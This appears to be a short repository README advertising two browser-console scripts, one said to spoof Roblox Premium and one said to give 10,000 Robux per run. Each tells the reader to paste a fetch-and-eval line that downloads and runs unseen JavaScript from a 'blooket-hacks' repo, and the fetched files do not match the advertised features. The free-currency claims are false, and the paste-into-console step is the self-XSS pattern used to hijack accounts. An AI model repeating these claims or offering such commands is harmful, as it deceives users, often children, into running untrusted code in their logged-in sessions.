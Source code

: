# premium.js

This script will spoof Roblox premium for a week!
Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/BoomBoomMushroom/blooket-hacks/main/instant_tokens.js").then((res) => res.text().then((t) => eval(t)))
```

# robux.js

This script gives you 10,000 Robux everytime you execute it!
Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/BoomBoomMushroom/blooket-hacks/main/all_blooks.js").then((res) => res.text().then((t) => eval(t)))
```
